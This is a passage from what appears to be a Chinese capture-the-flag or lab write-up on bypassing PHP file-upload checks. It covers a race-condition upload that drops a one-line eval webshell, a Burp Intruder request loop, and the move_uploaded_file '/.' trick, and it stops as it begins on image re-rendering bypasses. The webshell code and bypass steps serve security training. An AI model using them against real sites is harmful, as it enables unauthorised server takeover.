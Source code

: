 条件竞争的话稍微和正常的上传姿势不一样，先把题目中给的 webshell 信息复制出来备用：

```php
<?php fputs(fopen('xiao.php','w'),'<?php eval($_REQUEST[1]);?>');?>
```

然后先上传 shell.php 文件：

![](https://image.201068.xyz/assets/16036848394730.png) 

BP 抓取这个数据包然后发送到 Intruder 测试器中使用 NULL 空值无限爆破：

![](https://image.201068.xyz/assets/16036138407749.png)  

然后抓取访问 shell.php 的数据包：

```http
GET /upload/shell.php HTTP/1.1
Host: vul.xps.com:30009
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

依然使用 NULL 空值爆破：

![](https://image.201068.xyz/assets/16036140058678.png) 

 

最后成功在服务器的 upload 目录下生成 xiao.php 里的内容就是一个标准的webshell：

![](https://image.201068.xyz/assets/16036153403524.png) 

# move_uploaded_file 缺陷

这一题取材于 upload-labs 后面新增的题目：

![](https://image.201068.xyz/assets/1603615449643.png) 

```php
move_uploaded_file($temp_file, $img_path)
```

当 `$img_path` 可控的时候，还会忽略掉 `$img_path` 后面的 `/.` ，这一点发现最早是 <a href="https://www.smi1e.top/" ref="nofollow">Smile</a> 师傅于 2019 年 2 月份提出来的，TQL !!!既然知道 move_uploaded_file 的这个小缺陷的话，这样既可直接 Getshell：

![](https://image.201068.xyz/assets/16036161031022.png) 

# 二次渲染

`imagecreatefrom` 系列渲染图片都可能被绕过，有些特殊的图马是可以逃避过渲染的，另外这一题我特意还给了查看提示的按钮：
